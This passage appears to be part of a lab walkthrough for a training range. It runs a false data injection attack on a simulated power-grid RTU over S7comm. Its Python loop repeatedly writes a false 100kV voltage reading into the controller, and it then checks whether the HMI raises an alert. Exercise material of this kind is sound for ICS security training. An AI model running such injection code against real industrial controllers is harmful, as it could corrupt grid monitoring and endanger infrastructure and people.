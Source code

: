 - Modify the target IP address in the script to `10.107.[ team_nr ].08.11`.
- Run the script using:

```
python3 attackScript_FDI.py
```

If the script connects to the RTU, you will see the following log:

![](img/s_05.png)

Attack loop example:

```python
#-----------------------------------------------------------------------------
# Attack loop example 
RTU_IP= '127.0.0.1' # change this IP to the Power grid RTU02 IP address

client = snap7Comm.s7CommClient(RTU_IP, rtuPort=102, snapLibPath=libpath)
connection = client.checkConn()
if connection:
    while True:
        print("Attack: Start inject out of MU measurement range false voltrage value (100kV) \nto lvl0 Transformer RTU-MU reading")
        client.setAddressVal(7, 4, 100, dataType=INT_TYPE)
        time.sleep(0.1)
        print("Inject finished!")
```



#### Step 3: Verify the Impact of the FDI Attack

**Monitor HMI for Alerts:**

After the attack script has been running, check if the HMI displays a red alert, indicating that it has detected abnormal voltage values:

![](img/s_06.png)
